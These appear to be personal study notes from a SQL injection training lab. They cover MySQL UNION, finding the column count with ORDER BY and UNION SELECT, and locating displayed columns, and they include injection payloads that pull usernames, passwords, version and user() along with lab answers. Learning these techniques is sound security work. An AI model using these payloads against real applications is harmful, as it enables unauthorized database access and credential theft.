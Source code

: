 The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements.

```shell-session
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

## UNION

```shell
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

## Uneven Columns
When using a **`UNION SELECT`** injection, your goal is to **merge your custom query with the original query**. For it to work properly:

👉 The number of columns **must match** between both queries.
If not, SQL will throw an error like:

`ERROR: The used SELECT statements have a different number of columns`


EXAMPLE

```sql 

ORIGINA: SELECT * FROM products WHERE product_id = '1'


INJECT: ' UNION SELECT username FROM users-- 


QUERY: SELECT * FROM products WHERE product_id = '1' UNION SELECT username FROM users


FAILS: The original query returns 2 columns.
		Your injected query returns only 1 column (`username`).

✅ The Fix: Padding with Junk Values

' UNION SELECT username, 123 FROM users--


```
`username` goes in column 1
`123` (junk value) fills column 2

Q : Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

```sql
SELECT COUNT(*) AS total, 'departments' AS source FROM departments
UNION
SELECT COUNT(*) AS total, 'employees' AS source FROM employees;
```

## Detect number of columns
- Using `ORDER BY`
- Using `UNION`

#### Using ORDER BY

```sql
' order by 1-- -
```

If no error, proceed to:

```sql
' ORDER BY 2-- -

```

and so forth...

When you get an error, say on `ORDER BY 5`, it means only columns 1 to 4 exist → **4 columns total**.


#### Using UNION SELECT

Try to inject a `UNION SELECT` with increasing numbers of columns.
```sql
' UNION SELECT 1-- -


' UNION SELECT 1,2-- -


' UNION SELECT 1,2,3-- -


UNTIL SUCESSFULL
```

## Location of Injection

While a query may return multiple columns, the web application may only display some of them. So, if we inject our query in a column that is not printed on the page, we will not get its output. This is why we need to determine which columns are printed to the page, to determine where to place our injection. In the previous example, while the injected query returned 1, 2, 3, and 4, we saw only 2, 3, and 4 displayed back to us on the page as the output data:

It is very common that not every column will be displayed back to the user. For example, the ID field is often used to link different tables together, but the user doesn't need to see it. This tells us that columns 2 and 3, and 4 are printed to place our injection in any of them. `We cannot place our injection at the beginning, or its output will not be printed.`

```sql
cn' UNION select 1,@@version,3,4-- -
```
If you see something like `10.3.22-MariaDB-1ubuntu1` where `2` was, then column 2 **displays data**.

![[Pasted image 20250802153236.png]]

|Step|Purpose|
|---|---|
|Inject numbered payload|Find which columns display output|
|Replace a number with `@@version`|Confirm that column is displayed and can show real data|
|Place your sensitive data in displayed columns|Your injection results will appear on the page|

Q: Use a Union injection to get the result of 'user()'

ANSWER: 
```sql 
cn' UNION select 1,user(),3,4-- -
```

![[Pasted image 20250802153651.png]]

